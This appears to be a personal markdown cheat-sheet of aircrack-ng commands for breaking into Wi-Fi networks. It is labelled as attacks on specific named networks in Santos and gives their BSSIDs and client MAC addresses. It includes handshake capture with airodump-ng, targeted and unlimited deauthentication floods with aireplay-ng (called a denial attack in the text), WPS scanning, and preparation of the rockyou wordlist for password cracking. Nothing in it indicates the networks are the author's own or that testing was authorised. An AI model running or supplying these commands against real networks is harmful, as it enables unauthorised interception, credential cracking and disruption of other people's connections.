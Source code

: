 

## Wash

```bash
# This shows all WPS enabled Aps using wireless interface.
sudo wash --interface wlan0mon
```



## AiroDump

```bash
# Vê os pacotes entre roteadores e devices
sudo airodump-ng wlan0mon

# Attack (Domingo) Santos
sudo airodump-ng -c 1 --bssid 98:7E:CA:1C:B4:7F -w ~/Desktop/ wlan0mon

sudo airodump-ng -c 11 --bssid 84:A1:D1:52:87:A6 -w ~/Desktop/ wlan0mon



# Attack (Bety1310) Santos
sudo airodump-ng -c 11 --bssid 94:6A:77:27:29:EE wlan0mon
sudo airodump-ng -c 11 --bssid 94:6A:77:27:29:EE -w ~/Documents/ wlan0mon

# Attack (2G GAULIA 1981) Santos
sudo airodump-ng -c 1 --bssid 6C:55:E8:C3:C4:98 wlan0mon
sudo airodump-ng -c 1 --bssid 6C:55:E8:C3:C4:98 -w ~/Documents/gaulia wlan0mon
```



## AirePlay

Para desatenticação

```bash
# Derruba apenas uma conexão
sudo aireplay-ng --deauth 1 -a 6C:55:E8:C3:C4:98 -c C8:FF:28:C5:CA:31 wlan0mon
sudo aireplay-ng --deauth 1 -a 6C:55:E8:C3:C4:98 -c F0:D7:AA:13:C2:41 wlan0mon # Menos Pacotes

# Irrestrito... derruba tudo, denial attack (deautenticate 0)
sudo aireplay-ng --deauth 0 -a 6C:55:E8:C3:C4:98 wlan0mon
sudo aireplay-ng --help
```



## WordLists

```bash
# Unzip
cd /usr/share/wordlists
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz

# Show first 10 lines
head -10 /usr/share/wordlists/rockyou.txt

# Number of passwords
wc -l rockyou2021.txt
```
